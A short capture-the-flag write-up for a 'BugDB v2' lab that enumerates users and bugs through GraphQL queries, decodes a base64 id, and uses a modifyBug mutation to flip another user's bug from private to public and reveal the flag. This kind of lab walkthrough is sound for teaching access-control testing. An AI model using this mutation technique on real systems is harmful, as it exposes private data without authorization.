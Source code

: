 # BugDB v2 - FLAG0

## 0x00 Overview

Pretty much as [BugDB v1][1]. There is only a tiny difference on mutate the data.

## 0x01 Take a Tour

### allUsers

Users no longer have their bugs.

```graphql
query{
  allUsers {
    edges {
      node {
        id
        username
      }
    }
  }
}
```

![](./imgs/allUsers.jpg)

### allBugs

There is only one bug in array. And the one shows NOT PRIVATE status.

```graphql
query{
  allBugs {
    id
    reporter {
      id
      username
    }
    reporterId
    text
    private
  }
}
```

![](./imgs/allBugs.jpg)

And the bug id can be [decoded][2] 

```
base64decode(QnVnczox) = Bugs:1
```

### mutation

Try modify Bugs:2

```graphql
mutation{
  modifyBug(id:2, private:false) {
    ok
  }
}
```

![](./imgs/mutation.jpg)

## 0x02 FLAG

Go check back allBugs again.

```graphql
query{
  allBugs {
    id
    reporter {
      id
      username
    }
    reporterId
    text
    private
  }
}
```

Get the FLAG

![](./imgs/flag.jpg)

[1]: ../../bugdb_v1/flag0
[2]: https://www.base64decode.org/